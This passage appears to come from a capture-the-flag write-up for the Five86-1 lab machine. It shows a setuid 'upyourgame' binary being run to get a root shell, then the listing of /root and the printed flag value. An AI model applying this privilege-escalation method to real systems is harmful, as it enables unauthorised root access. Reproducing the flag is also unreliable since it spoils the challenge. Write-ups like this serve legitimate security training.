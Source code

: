 ~~~
You entered: No.  Is this correct? 
We appear to have a problem?  Do we have a problem? 
Made in Britain.
/bin/sh <------------------------- interesting!

[REDACTED]

~~~

Simply running the program and answering the questions will end up with a root shell:

~~~
moss@five86-1:~/.games$ ./upyourgame 
Would you like to play a game? yes

Could you please repeat that? yes

Nope, you'll need to enter that again. yes

You entered: No.  Is this correct? yes

We appear to have a problem?  Do we have a problem? yes

Made in Britain.
# id
uid=0(root) gid=1001(moss) groups=1001(moss)
~~~

# Root flag

Let's get the root flag:

~~~
# cd /root
# ls -la
total 24
drwx------  3 root root 4096 Jan  1  2020 .
drwxr-xr-x 18 root root 4096 Dec 31  2019 ..
lrwxrwxrwx  1 root root    9 Dec 31  2019 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rwx------  1 root root   33 Jan  1  2020 flag.txt
drwxr-xr-x  3 root root 4096 Jan  1  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
# cat flag.txt	
8f3b38dd95eccf600593da4522251746
~~~
